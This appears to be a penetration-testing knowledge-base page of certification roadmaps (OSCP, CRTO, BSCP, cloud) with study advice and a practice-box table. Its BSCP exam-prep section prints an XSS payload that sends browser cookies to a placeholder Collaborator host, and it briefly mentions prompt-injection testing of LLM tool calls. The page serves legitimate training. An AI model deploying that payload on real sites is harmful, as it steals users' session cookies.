

---
tags:
  - Reference
---

# :material-school: Certification Roadmaps

<span class="pill pill-info">opinionated</span> <span class="pill pill-medium">by goal</span>

Which cert, in what order, for which goal. Opinionated paths — not an exhaustive
list. Pick a **track**, not a shopping cart.

!!! tip "Certs open doors; skills keep you in the room"
    Employers filter on certs; engagements are survived on skill. Use the hands-on
    ones (OSCP, CRTO, CPTS, PNPT) to *build* skill, not just to collect letters.

## :material-map-marker-path: Tracks at a glance



## :material-stairs: Foundations (start here)

| Cert | Vendor | Style | Why |
|---|---|---|---|
| **CompTIA Security+** | CompTIA | MCQ | HR/DoD checkbox; baseline vocabulary. |
| **eJPT** | INE | Practical (lite) | Cheap, hands-on intro to the methodology. |
| **PJPT** | TCM | Practical exam | AD-focused entry; great value. |

- **Path:** if you have zero background, Sec+ for the résumé + eJPT/PJPT for the hands.
- Skip Sec+ if you're going straight for practical roles and already know the basics.

## :material-target-account: Pentest / OSCP path

| Cert | Vendor | Exam | Notes |
|---|---|---|---|
| **CPTS** | HTB | 10-day practical + report | Deeper than OSCP in breadth; excellent prep. |
| **PNPT** | TCM | 5-day practical + report + debrief | Realistic internal + AD + report; cheap. |
| **OSCP** | OffSec | 24h practical + report | The industry standard filter. |

- **Recommended path:** **CPTS or PNPT → OSCP.** Do a practical, report-writing cert
  first so OSCP's exam format isn't a shock.
- **Prep:** grind [HTB](htb.md) machines (see the [box list](htb.md)),
  [Internal / AD Checklist](../checklists/internal-ad.md), PG Practice. Buffer-overflow
  is de-emphasized on modern OSCP — focus AD + web + Linux/Windows privesc.

## :material-account-group: Red team / Active Directory

| Cert | Vendor | Focus |
|---|---|---|
| **CRTP** | Altered Security | AD attacks & abuse fundamentals — best value in the space. |
| **CRTO** | Zero-Point Security | C2 (Cobalt Strike / now open), evasion, realistic red team. |
| **CRTE / CRTM** | Altered Security | Advanced AD, forests, persistence. |
| **OSEP** | OffSec | Evasion + AD + pivoting; heavy. |

- **Recommended path:** **CRTP → CRTO → (CRTE/OSEP).** CRTP teaches the AD you'll use
  daily; CRTO teaches operating a [C2](../toolbox/c2.md).
- **Prep:** [Active Directory](../network/active-directory.md), [Kerberos](../network/kerberos.md),
  [AD CS](../network/adcs.md), [BloodHound](../network/bloodhound.md).

## :material-spider-web: Web / bug bounty

| Cert | Vendor | Focus |
|---|---|---|
| **Burp Suite Certified Practitioner** | PortSwigger | Proves real web skill; cheap; excellent labs. |
| **OSWE** | OffSec | White-box web exploitation & chaining to RCE. |
| **eWPTX** | INE | Advanced web. |

- **Recommended path:** grind [PortSwigger Web Security Academy](https://portswigger.net/web-security)
  (free) → **BSCP** → **OSWE** if you want source-code-to-RCE depth.
- **Prep:** [Exploitation](../web/index.md), [Web Checklist](../checklists/web.md), real
  [Bug Bounty writeups](bug-bounty.md).

## :material-cloud-lock: Cloud

| Cert | Vendor | Focus |
|---|---|---|
| **CARTP** | Altered Security | Azure red team. |
| **CCPen / cloud pentest** | Various | AWS/GCP offensive. |
| **(Foundations)** AWS/AZ certs | AWS/MS | Know the platform before attacking it. |

- **Recommended path:** learn one cloud's fundamentals → a hands-on offensive cloud
  cert. Map back to [AWS](../cloud/aws.md) · [Azure](../cloud/azure.md) · [GCP](../cloud/gcp.md).

## :material-lightbulb-on: Advice

- **Don't collect certs.** Pick the track for your target job and go deep.
- **Report writing is the skill that gets you paid** — the practical certs force it.
- **Budget matters:** HTB/TCM/Altered Security are far cheaper than OffSec and often
  teach more per dollar. OSCP's value is mostly its name recognition.
- **Free first:** PortSwigger Academy, [HTB](htb.md), TryHackMe, and PG Practice will
  take you further than any paid course before you spend.

## :material-flask: BSCP exam prep

The **Burp Suite Certified Practitioner** exam is 100% [PortSwigger Web Security
Academy](https://portswigger.net/web-security) material under a time limit — grind the
labs first, then drill the recurring exam patterns.

- **Cheatsheets & study repos:**
  [BSCP cheatsheet](https://bscpcheatsheet.gitbook.io/exam) ·
  [botesjuan study guide](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study) ·
  [DingyShark notes](https://github.com/DingyShark/BurpSuiteCertifiedPractitioner).
- **Know the two-stage rhythm:** each app has a low-priv foothold → then escalate to
  admin → then read `/etc/passwd` or run code. Budget time per app; move on and return.
- **Memorise the go-to payloads.** The XSS cookie-exfil to [Burp Collaborator](../toolbox/burp.md)
  is a staple:
  ```html
  <script>
  fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {method:'POST', mode:'no-cors', body:document.cookie});
  </script>
  ```
- **Drill the heavy topics:** [request smuggling](../web/request-smuggling.md)
  (CL vs TE desync — HTTP/1 lets you specify request length two ways; disagreement is
  the bug), host-header attacks, [SSRF](../web/ssrf.md) with filter bypasses, and
  [SSTI](../web/ssti.md). These carry the most exam weight.
- **LLM/API abuse** is now in scope — understand the function-calling loop (the model
  emits JSON args the client executes) and test excessive-agency and injection into
  tool inputs → [AI Prompt Injection](../ai/prompt-injection.md).

## :material-cube-outline: CWEE boxes

As boxes que devo fazer ^

| Chapter | Box | Challenges |
| --- | --- | --- |
| Injection Attacks | Analysis, Book | Dark Runes, E.Tree |
| Introduction to NoSQL Injection | Shoppy | Lazy Ballot, Wild Goose Hunt |
| Attacking Authentication Mechanisms | Noter | - |
| Advanced XSS and CSRF Exploitation | Secnotes | PumpkinSpice, Felonious Forums, The Galactic Times |
| HTTPs/TLS Attacks | Lazy | - |
| Intro to Whitebox Pentesting | — | - |
| Advanced Deserialization Attacks | Pov | NexusVoid |
| Abusing HTTP Misconfigurations | — | CDNio, Dark Alleys, Felonious Forums |
| Blind SQL Injection | Falafel | WafWaf |
| Advanced SQL Injections | — | Pentest Notes |
| HTTP Attacks | — | NextPath |
| Introduction to Deserialization Attacks | Tenet, HackNet | Pop Restaurant |
| Modern Web Exploitation Techniques | — | Interstellar |
| Whitebox Attacks | Falafel | - |
| Parameter Logic Bugs | — | - |

### Writeup

<https://blog.bi0s.in/2023/12/15/Web/NexusVoid-HTBUniversityCTF20232023/>

> [**https://almounah.github.io/posts/cwee-review/**](https://almounah.github.io/posts/cwee-review/)

## :material-clipboard-check: Mock exams & extra prep

- [Altered Security](https://www.alteredsecurity.com/) — labs and exams for the AD/red-team track (CRTP/CRTE/CRTO alternatives).
- [The SecOps Group — free mock pentest exams](https://secops.group/free-mock-pentesting-exams/) — good pressure-testing before any practical exam.

## :material-link-variant: Related

- Practice targets → [HTB Writeups](htb.md); real bugs → [Bug Bounty Writeups](bug-bounty.md).
- The skills these certify live across [Exploitation](../web/index.md), [AD](../network/active-directory.md), [Post-Exploitation](../privesc/index.md), and [AI Hacking](../ai/index.md).
